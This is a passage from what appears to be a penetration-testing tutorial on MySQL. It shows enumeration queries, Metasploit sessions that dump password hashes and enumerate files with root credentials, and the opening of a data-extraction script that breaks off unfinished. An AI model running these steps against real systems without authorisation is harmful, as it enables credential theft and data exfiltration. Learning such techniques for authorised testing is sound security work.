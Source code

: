 ### Common Manual Enumeration Queries

```sql
-- Show all databases
SHOW DATABASES;

-- Show current user and privileges
SELECT user(), current_user();
SHOW GRANTS;

-- List all users and hosts
SELECT user, host FROM mysql.user;

-- Show table information
SELECT table_schema, table_name FROM information_schema.tables;

-- Show column information
SELECT table_schema, table_name, column_name FROM information_schema.columns;

-- Show database privileges
SELECT * FROM mysql.db;
```

## Advanced MySQL Modules

### Hash Dumping

```bash
msf6 > use auxiliary/scanner/mysql/mysql_hashdump
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD twinkle
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run
```

### File Operations (if privileges allow)

```bash
msf6 > use auxiliary/admin/mysql/mysql_file_enum
msf6 auxiliary(admin/mysql/mysql_file_enum) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_file_enum) > set PASSWORD twinkle
msf6 auxiliary(admin/mysql/mysql_file_enum) > run
```

## Data Extraction and Analysis

### Extracting Sensitive Data

```bash
#!/bin/bash

TARGET=$1
USER=$2
PASS=$3
DATABASE=$4

echo "[*] Extracting data from $DATABASE on $TARGET"

msfconsole -q -x "
workspace -a data_extraction;
setg RHOSTS $TARGET;
use auxiliary/admin/mysql/mysql_sql;
set USERNAME $USER;
set PASSWORD $PASS;

```